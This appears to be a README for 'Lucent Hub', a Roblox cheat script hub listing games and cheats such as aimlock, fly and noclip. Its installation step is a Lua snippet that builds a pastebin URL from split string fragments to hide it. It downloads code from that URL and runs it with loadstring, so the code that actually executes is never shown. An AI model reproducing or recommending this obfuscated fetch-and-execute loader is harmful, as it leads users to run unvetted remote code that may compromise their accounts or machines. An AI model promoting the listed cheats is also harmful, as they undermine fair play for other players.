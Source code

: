 # Lucent Hub

# Supported Games

| Game Name          | Description                       | Script Features                    | Status   |
|--------------------|-----------------------------------|------------------------------------|----------|
| Murder vs Sheriff  |____     [██████████] 100%         | Hitbox enhancement,               | Stable   |
| 99 Nights in the Forest |    [█---------] 15%          |  discontinued...                      | discounted  |
| dahood             |         [█████----] 60%           | Fly, Noclip, Aimlock, Telepo       | beta     |
| murder mystery     |         [█████████] 100%           | to much...                     | stable     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |

# Installation
```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
